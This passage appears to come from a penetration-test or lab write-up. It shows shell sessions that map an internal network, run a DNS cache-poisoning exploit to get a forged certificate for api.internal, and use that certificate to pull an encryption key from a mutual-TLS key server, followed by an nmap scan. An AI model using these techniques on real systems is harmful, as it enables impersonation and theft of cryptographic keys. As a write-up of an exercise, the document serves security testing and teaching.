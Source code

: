 Running the `ptrecon.sh` script discovers a PTR record pointing `172.16.10.2` to `api.internal`:

```bash
pwn:~$ ./ptrecon.sh
172.16.10.1 -> keyserver.internal.
172.16.10.2 -> api.internal.
```

By this point it appears this network is intended for the API and key server to communicate directly.

Attempting to connect to the server throws a `bad certificate` error, likely meaning the client failed to provide a valid TLS certificate for mutual TLS authentication.

```bash
pwn:~$ curl https://keyserver.internal
curl: (56) OpenSSL SSL_read: error:14094412:SSL routines:ssl3_read_bytes:sslv3 alert bad certificate, errno 0
```

Using our combined V-CA-02 and V-CA-03 exploit, we're able to generate a certificate to impersonate the API and retry a request to the key server, this time authenticated as `api.internal`, yielding a successful HTTP query.

```bash
pwn:~$ sudo ./exploit -d api.internal
2022/11/08 19:15:57 Preparing DNS poisoner
2022/11/08 19:15:57 Creating pwn0 interface with 10.64.10.2
2022/11/08 19:15:57 Fetching validation token
2022/11/08 19:15:57 Serializing DNS packet
2022/11/08 19:15:57 Serialized DNS response for TXT [1f7b169c846f218ab552fa82fbf86758] id 11807
2022/11/08 19:15:57 Sending DNS responses to 10.64.10.3:50000
2022/11/08 19:15:57 Waiting for DNS cache poisoning
sud2022/11/08 19:15:58 Validating token with CA
2022/11/08 19:16:02 Wrote api.internal-crt.pem and api.internal-key.pem
2022/11/08 19:16:02 Stopped DNS poisoner
pwn:~$ curl https://keyserver.internal --key api.internal-key.pem --cert api.internal-crt.pem 
dce1360e4bc9a3a929a9dd5115e7977faac1f514febcf18fc036eebe3dffbc02
pwn:~$ curl https://keyserver.internal --key api.internal-key.pem --cert api.internal-crt.pem 
dce1360e4bc9a3a929a9dd5115e7977faac1f514febcf18fc036eebe3dffbc02
pwn:~$ curl https://keyserver.internal --key api.internal-key.pem --cert api.internal-crt.pem 
dce1360e4bc9a3a929a9dd5115e7977faac1f514febcf18fc036eebe3dffbc02
```

Retrying the request a few times returns the same 64 character hex string. This appears to be a key used by the API for encryption.

### Cookie Capture and Decryption

The first step of surveiling the webserver was to perform a scan of the host to find any valuable information. To do this, we executed `nmap -v -A api.internal` whose output can be found in appendix B figure 1. Abridged output only including pertinent information follows:
```zsh
Nmap scan report for api.internal (10.64.10.1)
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
443/tcp open  ssl/https PWNED
| ssl-cert: Subject: organizationName=DigiShue CA
| Issuer: organizationName=DigiShue CA
...
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
...
```